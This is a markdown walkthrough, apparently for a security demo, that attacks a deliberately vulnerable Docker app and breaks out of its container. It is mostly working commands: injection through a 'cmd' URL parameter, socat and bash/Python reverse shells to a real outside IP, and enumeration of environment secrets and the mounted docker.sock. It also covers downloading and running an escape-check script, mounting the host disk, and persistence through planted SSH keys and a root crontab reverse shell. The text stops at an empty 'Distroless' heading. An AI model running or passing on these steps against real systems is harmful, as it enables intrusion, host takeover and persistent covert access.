 # Demo

## Preparations

Run the app with mounted docker.sock:

```
docker run -v /var/run/docker.sock:/var/run/docker.sock -p 8000:8000 --privileged -t dockhocob/securitydemo:alpinevuln
```

Run a listener on the attacker host to accept connections from the target machine
`nc -l 1337` or ```socat file:`tty`,raw,echo=0 TCP-L:1337```

## Looking Around

### Vulnerable App

Run `http://[Terget IP}/app?cmd=stepan` then `http://[Terget IP}/app?cmd=pwd`

Getting a better shell 
    wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; 
    socat exec:'sh',pty,stderr,setsid,sigint,sane tcp:207.154.197.174:1337

### Some Enumration

Manual: 

    #Malicious behavior
    # Gather info about OS:
    cat /etc/os-release

    # Gather info about kernel. It could be helpful to find CVE and make docker escape for example:  
    uname -rv
    uname -a

    # Who we are:
    id

    # Gather info about current cgroups:
    cat /proc/1/cgroup

    # Gather env. Could be some pass:
    env

    # Gather info about network:
    ifconfig

    # Gather info about mounts:
    cat /proc/mounts

    # Docker.sock could be accessible (yes):
    cat /proc/mounts | grep docker.sock

    # Can we use docker.sock? (yes):
    ls -l /var/run/docker.sock

### Some automation

[Alternative] Quick and dirty using [DEEPCE](https://github.com/stealthcopter/deepce):

    wget https://github.com/stealthcopter/deepce/raw/master/deepce.sh
    curl -sL https://github.com/stealthcopter/deepce/raw/master/deepce.sh -o deepce.sh
    chmod +x ./deepce.sh
    ./deepce.sh

## Doing Mischief
### Over the Fence with exposed socket
Get the list of Images:
```curl --unix-socket /var/run/docker.sock http://localhost/v1.41/images/json```
Grab an image
    curl --unix-socket /var/run/docker.sock \
    -X POST "http://localhost/v1.41/images/create?fromImage=alpine"



### Over the Fence [with mount]
Mounting the host's filesystem:
    fdisk -l
    mkdir /mnt/hole
    mount /dev/vda1 /mnt/hole



### Some Persistence
[Ugly] Adding shadow keys to root's authorized keys:

    echo "ecdsa-sha2-nistp521 AAAAE2VjZHNhLXNoYTItbmlzdHA1MjEAAAAIbmlzdHA1MjEAAACFBAA1cTdFaFA94VX1YAWNjC9Ec4UOnTqzwESsdfR1+CS18m194zq4w6JwiqrUhkqcVO098jpcLSKi63S3fgFwRP/q4wHquZ8U3mKLFes/9ueea7V2jUXyXW5TQdazidMhlmQJsxGoUUGNmj1Pxv3Od62gMH35bm2UxsPWeAxJHDiu4HlTSQ== stephan@stephan.nosov-osx" >> /mnt/hole/home/stephan/.ssh/authorized_keys

[Ugly] Add a reverse shell to crontab
* bash
    touch .tab ; echo "*/1 * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/207.154.197.174/13337 0>&1'" >> .tab ; crontab .tab ; rm .tab > /dev/null 2>&1
* or python
    echo "*/1 * * * * /usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("207.154.197.174",13337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'" >> /var/spool/cron/crontabs/root

[Cunning] Shadow SUID

python2 ./shadow_suid.py register .ping /usr/bin/ping /home/stephan/ntfs3gg
## Distroless
